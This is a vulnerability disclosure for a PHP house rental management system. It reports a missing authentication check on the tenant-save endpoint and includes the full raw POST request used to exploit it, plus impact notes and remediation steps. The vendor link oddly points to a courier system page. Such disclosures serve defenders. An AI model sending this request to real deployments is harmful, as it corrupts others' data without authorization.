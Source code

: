 
### **Best House Rental Management System Unauthorized Tenant Addition Vulnerability**

- **Exploit Title**: Best House Rental Management System Project in PHP Unauthorized Tenant Addition Vulnerability  
- **Exploit Author**: Yasser Alshammari  
- **Vendor Homepage**: [SourceCodester](https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html)  
- **Software Link**: [Download Here](https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+)  
- **Version**: Best House Rental Management System Project in PHP v1.0  
- **Tested On**: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/8.1.12  
- **CVE**: Reported, waiting for CVE number  

---

### **Description**

The `/rental/ajax.php?action=save_tenant` endpoint in the **Best House Rental Management System Project in PHP v1.0** is vulnerable to unauthorized tenant addition. This occurs because the application does not validate user authentication or authorization before processing tenant addition requests. An attacker can exploit this vulnerability to add arbitrary tenant data, potentially corrupting the database.

---

### **Payload Used**

```sh
POST /rental/ajax.php?action=save_tenant HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------28015069973034201351287545916


-----------------------------28015069973034201351287545916
Content-Disposition: form-data; name="id"

12
-----------------------------28015069973034201351287545916
Content-Disposition: form-data; name="lastname"

Sharma
-----------------------------28015069973034201351287545916
Content-Disposition: form-data; name="firstname"

Rhea
-----------------------------28015069973034201351287545916
Content-Disposition: form-data; name="middlename"

Patel
-----------------------------28015069973034201351287545916
Content-Disposition: form-data; name="email"

rhea.sharma@example.com
-----------------------------28015069973034201351287545916
Content-Disposition: form-data; name="contact"

+91-8765432109
-----------------------------28015069973034201351287545916
Content-Disposition: form-data; name="house_id"

12
-----------------------------28015069973034201351287545916
Content-Disposition: form-data; name="date_in"

2024-05-23
-----------------------------28015069973034201351287545916--
```

---

### **Proof of Concept**

1. Submit the above POST request to the `/rental/ajax.php?action=save_tenant` endpoint.
2. Observe that the tenant record is successfully added to the database without requiring authentication or authorization.

---

### **Impact**

- An attacker can add fake tenant data, corrupting the database and disrupting business operations.
- This vulnerability can serve as a precursor to further attacks, such as:
  - Unauthorized access.
  - Privilege escalation.

---

### **Remediation**

- **Authentication**: Enforce authentication and authorization checks for all tenant addition requests.
- **Input Validation**: Validate and sanitize all user inputs to prevent injection of malicious data.
- **Rate Limiting**: Implement rate-limiting mechanisms to prevent abuse of the endpoint.
